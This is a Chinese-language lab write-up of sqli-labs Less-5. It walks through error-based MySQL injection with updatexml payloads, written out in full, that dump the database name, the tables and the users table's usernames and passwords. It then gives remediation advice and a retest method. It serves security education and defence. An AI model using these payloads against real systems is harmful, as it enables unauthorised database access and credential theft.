SQLI-LAB报告

## 漏洞概要

SQL注入是一类高危漏洞，存在于与数据库相关的环境中，本质上是在数据与代码没有严格分离的环境下，将用户输入的内容作为可执行语句从而实现注入行为。SQL注入漏洞常见于未使用参数化查询、以拼接字符串方式构造 SQL 的场景。攻击者可通过SQL注入实现对数据库内容的访问，极易导致用户个人信息的泄露，和密码哈希撞库其他网站的用户，甚至承担法律责任。

SQL注入点大致可分为两种：GET型和POST型。GET型SQL注入的特点是以URL作为注入点，通过修改URL参数的方式完成注入攻击；POST型注入的特点是payload不在URL显现，而是通过修改POST请求体的内容。

SQL注入手法可分为六种：联合查询注入、报错注入、布尔盲注、时间盲注、堆叠注入、带外注入。联合查询注入和报错注入的特点是需要回显位，注入快速而精确；布尔盲注和时间盲注的特点是以页面变化的方式作为判断基准，在联合查询注入和报错注入失效时尝试布尔盲注和时间盲注；**堆叠注入**的特点是可以执行查询之外的操作，用";"结束查询语句，然后添加自己想要执行的SQL语句；**带外注入（OOB）**的特点是靠DNS/HTTP访问服务器时携带数据库信息，然后通过查看服务器log的方式得到需要的内容。

## 漏洞检测

0、判断数据库类型

1、检测数字型还是字符型

2、检测闭合方式

3、检测有无回显--盲注

4、检测过滤方式

## 打靶练习

LESS-5



尝试?id=1



尝试?id=1'，报错You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1，发现数据库是MySQL，闭合方式为'



尝试?id=1' order by 4--+试出查询位数，发现查询位数的值小于4



尝试?id=1' order by 3--+试出查询位数，没有报错说明位数就是3



?id=-1' union select 1,2,3--+尝试联合查询注入找到回显位，发现页面无回显位

因为页面有报错的回显出现，所以尝试报错注入



构建payload：?id=1' and updatexml(1,concat(0x7e,database(),0x7e),3)--+

爆出数据库名为security



构建payload：?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),3)--+

爆出表名为emails,referers,uagents,users



构建payload：?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),3)--+

爆出列名id,username,password



构建payload：?id=1' and updatexml(1,concat(0x7e,(select group_concat(concat_ws(':',username,password)) from users),0x7e),3)--+

爆出username和password为Dumb:Dumb,Angelina:I-kill-you,D

报错内容为XPATH syntax error: '~Dumb:Dumb,Angelina:I-kill-you,D'，末尾不是0x7e，说明输出被截断

下一步，获取完整内容

1、使用substr＋limit一条一条获取

2、使用substr(group_concat(),1,30）最大化获取数据

3、布尔盲注拼接

对于可以使用报错注入的场景，我们优先使用方案2

编写一个EXP用于获取完整数据





运行得到的结果为Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4

## 总结

### 一、影响与危害

攻击者仅需对URL进行操作，无需任何验证，即可实现对数据库名、表名、username和password进行查询。本次已实际验证：通过报错注入并配合脚本分段取值，完整读取到 users 表的全部 13 组 username 与 password 组合，库中另有 emails、referers、uagents 三张表同样可被读取。

其中包含 `admin:admin` 这类可直接登录的后台账号，且密码以弱口令形式存储，攻击者无需破解即可直接使用。对用户的个人信息造成了泄露，攻击者可能利用username和password在其他网站进行撞库，影响范围超出了网站本身。

**利用门槛**：仅需浏览器与一次 URL 参数修改，无需任何专业工具或知识。

### 二、修复建议

1、根本修复：
   对该参数使用预编译（参数化查询）。其原理是数据库先确定语句结构、
   再将参数作为纯数据传入，用户输入永远不会进入 SQL 语法层被解析。

2、为什么不能用转义/过滤替代：
   转义引号、过滤关键字属于黑名单思路，只要存在一个未覆盖的绕过方式
   即告失效。这是"堵"而不是"隔离"。

3、临时缓解（代码改不动时）：
   - 该接口的数据库账号降权，仅保留必要的 SELECT 权限
   - 关闭详细报错回显（本关正是依靠回显的报错信息取到全部数据，
     报错信息本身即构成严重的信息泄露）
   - WAF 拦截 updatexml、extractvalue、information_schema 等特征

4、同类问题排查：
   按"是否存在字符串拼接构造 SQL"对全部接口做一次检索，注入点通常不止一处。

5、修复验证方法：
   用原 payload 复测：?id=1' and updatexml(1,concat(0x7e,database(),0x7e),3)--+
   预期：不再返回 XPATH 报错，页面显示正常业务结果或统一错误页。
   并需更换手法复测（联合查询、布尔盲注），确认全部手法失效，
   仅拦截 UNION 一种不视为修复完成。

### 三、延伸思考

**卡在哪**：

1、用联合查询找回显位时页面什么都没有，第一反应是"这个点不能注入"。
但页面同时存在报错回显，说明查询确实被执行了、只是数据不从回显位出来。
这关的转折点是意识到：**"没有数据回显"和"不能注入"是两件事**，
转而检查页面还给不给我别的信号（报错），才找到报错注入这条路径。

2、取库名和表名时都很顺利，但取 users 表数据时报错内容只有
'~Dumb:Dumb,Angelina:I-kill-you,D'，末尾没有 0x7e 对应的 ~。
一开始怀疑是 payload 写错了，实际是数据长度超过了报错回显的长度上限。

**学到什么**：

1、**报错回显可以作为"数据搬运通道"。**
updatexml 本来是用来处理 XML 的，传一个非法的 XPath 表达式会报错，
而报错信息会把错误表达式原样打印出来——把查询结果拼进这个表达式，
数据就跟着报错一起出来了。
用 0x7e（即 ~）把数据包在中间，是为了给自己一个明确的取值边界：
既方便肉眼识别，也方便脚本用正则定位。

2、**报错注入有回显长度上限，这决定了它的适用范围。**
本关实测约 30 个字符，超过就被截断，且截断时不会报错、只是少了一段。
因此取长内容必须分段：`substr` 按固定长度切片，每段都要校验
尾部 ~ 是否存在（有 = 完整，无 = 被截断）。

3、**数据量决定手法，而不是反过来。**
- 库名、表名、列名：短，一条 payload 就够
- 单行数据：中等，用 substr 分段或 limit 逐条
- 整张表：长，必须脚本化（`group_concat` 压成一个长串 + `substr` 循环切）

所以"报错注入够不够用"要事先判断：**如果目标数据明显超过回显上限，
就应该直接上脚本，而不是手工一段段试。**

4、**判断手法的顺序是从"信息量最大"往下试，一能用就停。**
本关的完整选择链：
```
有回显位        → 联合查询（1 个请求拿数据，最快）
无回显但报错     → 报错注入（本关，约 30 字符/请求）
报错也不回显     → 布尔盲注（约 7 个请求/字符）
连差异都没有     → 时间盲注
```
这不是规定，是效率排序——每往下一层，请求数就涨一个数量级。

5、**取数据脚本的两个关键设计**：
- **停止条件**：数据取完后页面返回 '~~'（两个 ~ 中间为空），
  此时正则仍能匹配成功但 group(1) 为空，所以判断条件必须同时检查
  "匹配到没有"和"内容空不空"，只判断前者会导致循环停不下来。
- **切片的步长必须与 substr 的长度参数一致**（都是 30），
  若写成 31 会每段漏 1 个字符，而且不报错、很难发现。

